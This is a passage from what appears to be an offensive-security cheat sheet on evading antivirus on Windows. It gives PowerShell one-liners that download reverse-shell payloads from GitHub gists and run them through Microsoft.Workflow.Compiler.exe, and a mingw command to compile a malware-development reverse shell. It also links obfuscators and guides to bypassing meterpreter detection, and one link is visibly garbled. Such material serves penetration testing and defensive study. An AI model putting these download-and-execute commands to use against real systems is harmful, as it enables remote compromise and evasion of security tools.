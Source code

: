 ### C# using compiler

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```

[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Automatic download and execution:

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```

{{#ref}}
https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f
{{#endref}}

C# obfuscators list: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++

```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

- [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
- [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
- [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
- [https://github.com/l0ss/Grouper2](ps://github.com/l0ss/Group)
- [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
- [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)
